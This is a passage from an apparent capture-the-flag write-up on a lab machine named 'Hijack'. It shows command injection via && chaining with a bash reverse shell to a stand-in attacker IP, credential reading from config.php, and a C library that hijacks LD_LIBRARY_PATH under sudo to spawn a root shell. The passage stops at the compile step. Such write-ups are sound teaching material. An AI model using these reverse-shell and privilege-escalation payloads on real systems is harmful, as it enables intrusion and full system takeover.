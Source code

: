 Most of the commonly used shells have boolean operators like && and || as a condition for the previous exit status code. 
For example in bash you can check the status code of the last command that was executed via echo $?. 
That means && is true if the previous command would return a 0 otherwise || is true and the command afterwards will be executed. 
These operators are not blocked by the page, it is possible to chain commands like this

```
sshd && bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1"
```
## Root

On the target config.php contains credentials for the user rick.

```
 cat config.php
<?php
$servername = "localhost";
$username = "rick";
$password = "XXXXXXXXXXXXXXXXXXX";
$dbname = "hijack";

// Create connection
$mysqli = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($mysqli->connect_error) {
  die("Connection failed: " . $mysqli->connect_error);
}
?>
```
So, I switched to the user using ssh rick@10.10.148.158 and got the first flag inside /home/rick/user.txt. 
One of the first things to check on gained privileges is the current user's permissions on the availability of substituting other users, usually using sudo.

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
rick@Hijack:~$ id
uid=1003(rick) gid=1003(rick) groups=1003(rick)
rick@Hijack:~$ sudo -l
[sudo] password for rick: 
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
## Exploit
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
Lets compile it by using 